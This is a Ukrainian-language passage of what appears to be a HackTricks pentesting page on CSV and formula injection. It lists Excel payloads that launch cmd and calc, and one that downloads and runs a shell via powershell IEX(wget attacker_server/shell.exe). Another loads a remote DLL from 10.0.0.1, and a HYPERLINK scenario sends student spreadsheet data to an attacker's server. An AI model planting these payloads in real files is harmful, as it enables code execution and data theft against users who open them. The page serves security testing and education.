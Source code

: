 # Formula/CSV/Doc/LaTeX/GhostScript Injection

{{#include ../banners/hacktricks-training.md}}

## Formula Injection

### Info

Якщо ваш **вхід** відображається всередині **CSV файлів** (або будь-якого іншого файлу, який, ймовірно, буде відкритий в **Excel**), ви, можливо, зможете вставити **формули** Excel, які будуть **виконані**, коли користувач **відкриває файл** або коли користувач **натискає на деяке посилання** всередині аркуша Excel.

> [!CAUTION]
> Сьогодні **Excel попереджає** (кілька разів) **користувача, коли щось завантажується ззовні Excel**, щоб запобігти його зловмисним діям. Тому необхідно докласти особливих зусиль у соціальному інженерії для фінального вантажу.

### [Wordlist](https://github.com/payloadbox/csv-injection-payloads)
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```
### Hyperlink

**Наступний приклад дуже корисний для ексфільтрації вмісту з фінальної таблиці Excel та для виконання запитів до довільних місць. Але це вимагає, щоб користувач натиснув на посилання (і прийняв попередження).**

Наступний приклад був взятий з [https://payatu.com/csv-injection-basic-to-exploit](https://payatu.com/csv-injection-basic-to-exploit)

Уявіть, що в системі управління записами студентів сталася витік безпеки, який було використано через атаку CSV-ін'єкції. Основна мета зловмисника - скомпрометувати систему, яку використовують вчителі для управління даними студентів. Метод полягає в тому, що зловмисник вводить шкідливий код у додаток, зокрема, вводячи шкідливі формули у поля, призначені для даних студентів. Атака розгортається наступним чином:

1. **Ін'єкція шкідливого коду:**
- Зловмисник подає форму даних студента, але включає формулу, яка зазвичай використовується в електронних таблицях (наприклад, `=HYPERLINK("<malicious_link>","Click here")`).
- Ця формула призначена для створення гіперпосилання, але вона вказує на шкідливий сервер, контрольований зловмисником.
2. **Експорт скомпрометованих даних:**
- Вчителі, не підозрюючи про компрометацію, використовують функціональність додатка для експорту даних у файл CSV.
- Файл CSV, при відкритті, все ще містить шкідливий код. Цей код з'являється як клікабельне гіперпосилання в електронній таблиці.
3. **Активація атаки:**
- Вчитель натискає на гіперпосилання, вважаючи його легітимною частиною даних студента.
- Після натискання чутливі дані (можливо, включаючи деталі з електронної таблиці або комп'ютера вчителя) передаються на сервер зловмисника.
4. **Логування даних:**
- Сервер зловмисника отримує та реєструє чутливі дані, надіслані з комп'ютера вчителя.
- Зловмисник може використовувати ці дані для різних шкідливих цілей, ще більше компрометуючи конфіденційність і безпеку студентів та установи.
